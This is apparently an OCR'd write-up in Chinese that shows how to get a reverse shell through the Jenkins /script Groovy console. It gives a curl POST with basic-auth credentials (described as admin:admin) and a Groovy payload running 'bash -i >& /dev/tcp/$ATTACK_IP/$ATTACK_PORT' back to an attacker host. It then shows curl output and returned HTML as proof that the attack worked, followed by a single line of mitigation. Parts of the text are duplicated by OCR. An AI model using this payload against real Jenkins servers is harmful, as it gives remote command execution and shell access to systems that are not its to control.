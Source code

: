 ```
>   --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
> 
  --header "Content-Type: application/x-www-form-urlencoded"

  --header "Content-Type: application/x-www-form-urlencoded"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed

  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0


  
  <!DOCTYPE html><html><head resURL="/static/03cce89a" data-rooturl="" data-resurl="/static/03cce89a">
```

```
curl -X POST "$JENKINS_URL/script" \
  --user "$USERNAME:$PASSWORD" \
  --data-urlencode "script=def proc = ['bash','-c','bash -i >& /dev/tcp/$ATTACK_IP/$ATTACK_PORT 0>&1'].execute()" \
  --header "Content-Type: application/x-www-form-urlencoded"

```

这段请求：
- 使用的是 Jenkins 的 脚本执行接口 /script
- 使用的是 基础认证（admin:admin）
- 执行的 Groovy 脚本中使用 .execute() 来运行 Bash 命令反弹 Shell
- 攻击目标为 '$ATTACK_IP:$ATTACK_PORT'，即攻击者主机监听的反弹 shell 端口。

攻击效果判断：
```
<!DOCTYPE html><html><head ...>
<title>Jenkins</title>
...
<a href="/user/admin" class="model-link inside inverse"><b>admin</b></a>

```
说明：
- 请求成功返回了 Jenkins 页面，并且显示已登录用户为 admin
- 这意味着 认证成功 + 命令执行接口可达


### 一些缓解措施
- 使用jenkins web服务端界面对用户权限进行一些设置